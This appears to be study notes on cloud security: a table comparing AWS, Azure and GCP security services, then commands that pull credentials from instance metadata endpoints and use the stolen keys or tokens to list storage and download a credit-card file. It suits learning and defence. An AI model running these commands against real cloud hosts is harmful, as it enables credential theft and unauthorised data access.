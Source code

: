 | AWS Security Services            | Azure Security Services         | GCP Security Services            |
|-----------------------------------|---------------------------------|----------------------------------|
| 1. AWS Identity and Access Management (IAM) | 1. Azure Active Directory (AAD) | 1. Cloud Identity and Access Management (IAM) |
| 2. AWS Organizations             | 2. Azure Policy                | 2. GCP Organization Policy       |
| 3. AWS Resource Access Manager (RAM) | 3. Azure Resource Locks       | 3. GCP Resource Manager          |
| 4. AWS Security Token Service (STS) | 4. Azure Managed Identities   | 4. GCP Secret Manager            |
| 5. AWS Key Management Service (KMS) | 5. Azure Key Vault            | 5. Google Cloud KMS              |
| 6. AWS Secrets Manager          | 6. Azure Private Link          | 6. GCP VPC Service Controls      |
| 7. AWS Single Sign-On (SSO)     | 7. Azure AD B2C               | 7. GCP Identity Platform          |
| 8. AWS Cognito                  | 8. Azure AD Domain Services    | 8. GCP Identity-Aware Proxy (IAP) |
| 9. AWS GuardDuty                | 9. Azure Sentinel              | 9. GCP Event Threat Detection    |
| 10. AWS Inspector               | 10. Azure Security Center      | 10. GCP Security Command Center   |
| 11. AWS Shield                  | 11. Azure DDoS Protection      | 11. GCP Cloud Armor              |
| 12. AWS Web Application Firewall (WAF) | 12. Azure Web Application Firewall | 12. GCP Cloud CDN Security Policies |
| 13. AWS Firewall Manager        | 13. Azure Firewall Manager     | 13. GCP Firewall Rules Logging    |
| 14. AWS Certificate Manager (ACM) | 14. Azure App Service Certificates | 14. GCP Managed SSL Certificates |
| 15. AWS CloudTrail              | 15. Azure Monitor              | 15. GCP Cloud Audit Logs         |
| 16. AWS Config                  | 16. Azure Log Analytics        | 16. GCP Security Scanner          |
| 17. AWS CloudWatch              | 17. Azure Network Watcher      | 17. GCP Network Intelligence Center |
| 18. AWS Trusted Advisor         | 18. Azure Advisor              | 18. GCP Recommender              |


# Guides, Guidelines, 
CSA - Cloud control matrix - https://cloudsecurityalliance.org/research/cloud-controls-matrix/
CIS benchmark guide for individual clouds
Cloud center of excellence (CCoE)
Mitre ATT&CK Cloud matrix - https://attack.mitre.org/matrices/enterprise/cloud/

## Notes
- VM Service accounts/Instance Metadata Service (IMDS) - EC2 - Instance profile, Azure - Managed identity, GCP - Service account
- 
##### AWS
- Get security group ```curl –s "http://169.254.169.254/latest/meta-data/securitygroups/"```
- List of security creds saved in AWS - ```http://169.254.169.254/latest/meta-data/iam/security-credentials/```
- Get AUTH token ```TOKEN=$(curl -s -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds:21600" http://169.254.169.254/latest/api/token)```
- Use AUTH token in the request ```curl -H "X-aws-ec2-metadata-token: $TOKEN"http://169.254.169.254/latest/meta-data/iam/security-credentials/sec510-ec2```
- AWS AUTH using stlen creds
```
$ export AWS_ACCESS_KEY_ID="ASIA54BL6PJR3MV6PUNZ"
$ export AWS_SECRET_ACCESS_KEY="S0M6vF4UmMlfmV5B/bM2lTzocsSWMMHRI"
$ export AWS_SESSION_TOKEN="IQoJb3JpZjEJ...3QtMSJEQCIykQYitLv8Vg=="

$ aws s3api list-buckets
```

##### Azure 
- JWT for accessing the storage service ```curl "http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https://storage.azure.com/" -H "Metadata: true"```
- Azure authentication using stolen credentials
```
export BEARER_TOKEN=eyJ0eXAiOiJKV1iJSUzI1.eyJhdWQiOiJodHRwczovL6nF.9GBdAVCbC...d4EjV2m_ADfn7g9BoDsK9ID-18fvQKuQ
curl -s -H "Authorization: Bearer $BEARER_TOKEN" -H "x-ms-version:2017-11-09" "https://sec510.blob.core.windows.net/credit-cards?restype=container&comp=list"
curl -s -H "Authorization: Bearer $BEARER_TOKEN" -H "x-ms-version:2017-11-09" "https://sec510.blob.core.windows.net/creditcards/alice.txt" --output /tmp/alice.txt
```

##### GCP
- Get network security group ```curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/machine-type```
- Get access token (depricated but might work) ```curl "http://metadata.google.internal/0.1/meta-data/serviceaccounts/default/acquire"```
- Get access token (beta, might not work) ```curl "http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token"```
- Get service token ```curl -s -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/serviceaccounts/default/token```
- Get the scope of service token - ```http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes```
- 
